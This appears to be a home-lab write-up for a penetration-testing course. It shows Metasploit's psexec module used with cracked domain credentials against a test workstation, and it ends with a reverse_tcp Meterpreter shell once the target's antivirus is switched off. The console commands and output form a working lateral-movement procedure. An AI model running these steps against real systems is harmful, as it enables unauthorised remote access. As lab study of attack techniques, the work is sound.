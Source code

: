 We start `msfconsole` and search for `psexec`. This gives a lot of hits (July
2025: 37). 

Most of the time today, our targets will be 64 bit machines, therefore we set the
payload to a 64 bit version with `set payload windows/x64/meterpreter/reverse_tcp`.
(Use auto-completion with the tab key!)

However, there are still many 32 bit machines around, so it is not guaranteed
that an exploit for a 64 bit machine will be the correct choice every time.

We want to attack the workstation `THEPUNISHER` with the IP `10.0.2.6`, which
is part of the `MARVEL.local` domain. The user is `fcastle` with the cracked
password `Password1`:

```
msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.6
rhosts => 10.0.2.6
msf6 exploit(windows/smb/psexec) > set SMBDomain MARVEL.local
SMBDomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set SMBUser fcastle
SMBUser => fcastle
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
```

We can double-check the entered values with the `options` command to be sure.
The target is set to `automatic`. If this does not work, we can try either
`Powershell` or `Native upload`. We can use the commands `show targets` and
`set target <number>` to set another one. According to TCM, `Native upload`
works best.

Once all parameters are set, we can enter `run` to start the attack.

**The attacks fails with all three target settings (0 - Automatic, 1 -
Powershell, 2 - Native upload)!** IP address, user name and password are set
correctly. The reason is apparently that Microsoft Defender identified the
attack and blocked the connection! 

Advice on Discord to someone else: "You might want to check if **firewall and
AV real time protection is disabled** on the target" -- this did the trick.
After switching firewall and antivirus protection of, I got a Meterpreter
shell:

```
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] 10.0.2.6:445 - Connecting to the server...
[*] 10.0.2.6:445 - Authenticating to 10.0.2.6:445|MARVEL.local as user 'fcastle'...
[*] 10.0.2.6:445 - Selecting PowerShell target
[*] 10.0.2.6:445 - Executing the payload...
[+] 10.0.2.6:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (203846 bytes) to 10.0.2.6
[*] Meterpreter session 1 opened (10.0.2.5:4444 -> 10.0.2.6:57979) at 2025-08-02 03:45:33 -0400

meterpreter > 
```
